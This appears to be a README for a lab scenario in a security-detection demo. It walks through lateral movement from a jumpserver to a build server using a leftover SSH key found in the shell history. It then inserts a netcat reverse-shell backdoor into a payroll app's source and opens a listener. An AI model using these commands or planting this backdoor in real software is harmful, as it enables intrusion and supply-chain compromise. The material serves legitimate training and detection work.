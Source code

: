 # Multi-Machine Lateral Movement

This scenario shows an attacker gaining access to a public-facing server outside of the cluster, and using it to connect to a more restricted build environment.

## Pre-requisites

This scenario requires two machines to be set up outside of the Kubernetes cluster using the install script. To begin, you will need the IP address and SSH key to access the first server (or "jumpserver").

## Running the Exploit

There are two machines in this scenario: a "jumpserver" and a build server (`buildbox`). The build server is supposed to be restricted, and can only be accessed from machines within the same account. To use the build server for publishing new versions of private images, developers first connect to a public-facing jumpserver using SSH. From there, they can connect to the build server.

In this scenario, we start as the attacker, who has just acquired the SSH key for the jumpserver. Let's start by connecting to the machine.

```sh
ssh -i ~/path/to/jumpserver/key JUMPSERVER_USER@JUMPSERVER_IP
```

Now, take a look at the history:

```sh
history
```
```
    1  ls -la
    2  hostname
    3  systemctl status sshd.service 
    4  ls .ssh/
    5  ssh-keygen
    6  cat .ssh/buildbox_id.pub 
    7  ssh -i ~/.ssh/buildbox_id root@203.0.113.45
    8  history
```

The developers used the SSH key `buildbox_id` to access the build server. It also looks like the SSH key is still present:

```sh
ls ~/.ssh
```
```
authorized_keys  buildbox_id
```

So now, we can connect to the build server:

```sh
# note: use the command that appeared in your history for a valid user/IP
ssh -i ~/.ssh/buildbox_id root@203.0.113.45
```

If we look at the history, we can see some of the old packages that were built here:

```sh
history
```
```
    1  git clone git@github.com:example/build.git 
    2  cd build
    3  make push-container
    4  cd ..
    5  rm -rf build
    6  git clone git@github.com:example/payroll-app.git 
    7  cd payroll-app
    8  make build
    9  make push-container
   10  cd payroll-app
   11  git pull
   12  make push-container
   13  history
   14  ls ~/.ssh
   15  ls ~/payroll-app/
   16  cat payroll-app/Makefile 
   17  history
```

Given the build server is fetching private code using SSH, we could use the SSH keys here to login to GitHub and view the company's repositories:

```sh
ls ~/.ssh/
```
```
authorized_keys  github-login
```

Instead, let's can take a look at the `payroll-app` directory to get some more details about how the build were handled:

```sh
ls ~/payroll-app/
```
```sh
cat payroll-app/Makefile
```

And, given the access on this machine, we could edit the `payroll-app` package to add a backdoor that we could access, and then push a new version of the package.

As an example, let's could install netcat:

```sh
sudo yum install nmap-ncat
```

And validate that we can use `nc`:

```sh
nc --version
```

Then, we can edit the payroll app to give us the backdoor, such as connecting to this machine with a reverse shell.

```py
# file: payroll-app/payroll-calc.py
# ...
import os; os.system("nc 203.0.113.45 2222 -e /bin/bash")
```

For this demo, the buildbox is not actually set up to generate new images, but at this point is where we would build the new image, start a listening server, and wait for someone to deploy the backdoor:

```sh
nc -l -p 2222
```

To see a full supply-chain exploitation and how Spyderbat detects it, visit the [supply chain attack demo](../supply_chain/).

## Investigation

[[TODO]]

## Further Reading

- [Supply Chain Attack Scenario](../supply_chain/)
- [End-to-End Demo Scenario](../end_to_end/)
